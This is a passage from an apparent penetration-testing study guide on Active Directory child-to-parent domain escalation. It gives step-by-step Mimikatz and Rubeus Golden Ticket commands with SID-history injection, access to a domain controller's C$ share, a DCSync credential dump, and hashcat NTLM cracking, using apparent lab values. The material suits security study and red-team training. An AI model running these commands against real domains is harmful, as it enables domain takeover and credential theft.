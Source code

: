 6. FQDN of the child domain
```powershell
(Get-ADDomain).DNSRoot
```
Using PowerView
```powershelll
Get-NetDomain | select Name
```
8. The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: AnubisXploit
9. Creating a Golden Ticket with Mimikatz
```powershell
mimikatz # kerberos::golden /user:<FakeNAme> /domain:<ChildDomain> /sid:<SID-for-the-child-domain> /krbtgt:<KRBTGT-hash-for-the-child-domain> /sids:<SID of the Enterprise Admins group of the root domain> /ptt
```
For Our Current Example
```powershell
mimikatz # kerberos::golden /user:AnubisXploit /domain:LOGISTICS.CORP.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
<img width="1509" height="667" alt="image" src="https://github.com/user-attachments/assets/097eb638-2b2c-43ac-bdcb-f30e031c0075" />

No Ticket submitted for current session and we can check it using `klist`
```powershell
klist
```
<img width="1342" height="421" alt="image" src="https://github.com/user-attachments/assets/54369dc1-005d-47d2-b9a6-742dbf9786fc" />

10. Listing the Entire C: Drive of the Domain Controller
```powershell
ls \\dc01.CORP.local\c$
```
11. Creating a Golden Ticket using Rubeus - Another Way -
```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.CORP.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:AnubisXploit /ptt
```
12. Performing a [DCSync](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Active%20Directory%20Attacks/Access%20Control%20List%20(ACL)%20Abuse/DS-Replication-Get-Changes_and_all.md) Attack
Finally, we can test this access by performing a DCSync attack against the parent domain, targeting the 'admin_user' Domain Admin user.
**Inside Mimikatz, run the DCSync command:**
```powershell
lsadump::dcsync /domain:YOURDOMAIN.LOCAL /user:YOURDOMAIN\administrator
```
13. Cracking NTLM hashes in case the reversible encryption option not checked for users
```shell
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt --force
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
